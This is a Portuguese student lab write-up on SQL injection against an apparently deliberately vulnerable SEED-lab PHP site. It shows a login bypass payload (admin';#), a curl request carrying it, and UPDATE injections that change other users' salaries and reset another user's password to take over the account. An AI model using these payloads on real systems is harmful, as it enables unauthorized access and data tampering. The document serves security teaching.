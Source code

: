 # Trabalho Realizado nas Semanas #8 e #9

## Task 1

- Utilizamos o mysql para interagir com a base de dados como root. De seguida utilizamos o show tables para ver as tabelas da base de dados.
- E corremos o comando SQL mostrado em baixo para ver os dados da alice.

![ver dados da alice](images/w8/task1_1.png)

## Task 2  

### 2.1 

- Analisando o código PHP em unsafe_home.php, bastaria inserir um pedaço de comando SQL no campo correspondente ao $input_uname, de modo a aceder à informação pretendida.

![img](images/w8/task2_1_a.png)

- No nosso caso, adicionamos um #, ficando o código que se segue (que verifica a password) comentado.
- WHERE name= ’admin';#

![img](images/w8/task2_1_b.png)

### 2.2

- Recorremos à mesma estratégia usada na alínea anterior.
- O comando executado foi: curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password='.
- Verifica-se, pela seguinte imagem, que foi obtida a informação dos funcionários.

![img](images/w8/task2_2.png)

### 2.3 

- Existe, de facto, uma medida que impede a execução de 2 comandos SQL em um ataque. Para se executar vários comandos SQL (agrupados), o comando multi_querie() precisa de estar presente.
- As funções de querie, por norma, não ativam uma flag de conexão necessária para ativar multi queries no servidor. 

## Task 3

### 3.1

- Analsiando o código PHP em unsafe_edit_backend.php, não há novamente qualquer proteçao contra sqli, sendo possível inserir código SQL nas variáveis do formulário.
![vulnerable_code](images/w8/task3_1.png)
- Assim, se colocarmos ',salary=1000000 WHERE name='Alice';# no nickname
![alice_salary_form](images/w8/task3_2.png)
- O código executado será 
```sql
UPDATE credential SET
nickname='',salary=1000000 WHERE name='Alice';#’...
```
Como tal, o salário é alterado e o código restante é comentado.
![alice_salary](images/w8/task3_3.png)

### 3.2
- Para alterar o salário de oura pessoa, basta mudar o nome 'Alice' filtrado com o where para o da pessoa que se pretende mudar o salário. 
- Assim, passamos a colocar ',salary=1 WHERE name='Boby';#

![boby_salary_form](images/w8/task3_4.png)
- O código executado será 
```sql
UPDATE credential SET
nickname='',salary=1 WHERE name='Boby';#’...
```
![boby_salary](images/w8/task3_5.png)

### 3.3
- É guardada o hash do input da password. Como tal, não se pode colocar código neste parâmetro.
- No entanto, dado que o número de telemóvel aparece depois da password, se colocarmos a password desejada no parâmetro password e injetarmos código sql no número de telemóvel de forma a mudar o filtro para escolher o utilizador que é alterado, conseguimos o desejado.
- Para isto, colocamos 'WHERE name='Boby';# no número de telemóvel.
![boby_password](images/w8/task3_6.png)
- Assim, o código executádo será

```sql
UPDATE credential SET
nickname='',
email='',
address='',
Password=sha1($input_pwd);,
PhoneNumber=''WHERE name='Boby';#'WHERE ID=$id;
```
- Como tal, a password do Boby é alterada para a fornecida no parâmetro password.

- Conseguimos então fazer login na conta do Boby com o seu username conhecido e a password que escolhemos.

![boby_login](images/w8/task3_7.png)
![boby_after_login](images/w8/task3_8.png)
